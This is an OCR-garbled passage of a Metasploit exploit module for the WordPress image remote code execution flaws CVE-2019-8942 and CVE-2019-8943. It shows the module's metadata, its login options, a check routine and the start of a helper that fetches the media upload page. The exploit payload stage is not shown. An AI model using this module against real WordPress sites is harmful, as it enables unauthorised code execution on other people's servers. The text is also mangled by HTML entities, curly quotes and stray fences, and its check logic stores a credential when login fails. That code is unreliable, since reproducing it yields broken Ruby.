   'Author'          =&gt;
  [
    'RIPSTECH Technology',                               # Discovery
    'Wilfried Becard &lt;wilfried.becard@synacktiv.com&gt;'    # Metasploit module
  ],
'References'      =&gt;
  [
    [ 'CVE', '2019-8942' ],
    [ 'CVE', '2019-8943' ],
    [ 'URL', 'https://blog.ripstech.com/2019/wordpress-image-remote-code-execution/']
  ],
  'DisclosureDate'  =&gt; 'Feb 19 2019',
  'Platform'        =&gt; 'php',
  'Arch'            =&gt; ARCH_PHP,
  'Targets'         =&gt; [['WordPress', {}]],
  'DefaultTarget'   =&gt; 0
))

register_options(
  [
    OptString.new('USERNAME', [true, 'The WordPress username to authenticate with']),
    OptString.new('PASSWORD', [true, 'The WordPress password to authenticate with'])
  ]) 
```

end

def check

cookie = wordpress_login(username, password)

if cookie.nil?

store_valid_credential(user: username, private: password, proof: cookie)

return CheckCode::Safe

end

```
CheckCode::Appears 
```

end

def username

datastore[‘USERNAME’]

end

def password

datastore[‘PASSWORD’]

end

def get_wpnonce(cookie)

uri = normalize_uri(datastore[‘TARGETURI’], ‘wp-admin’, ‘media-new.php’)

res = send_request_cgi(

‘method’    => ‘GET’,

```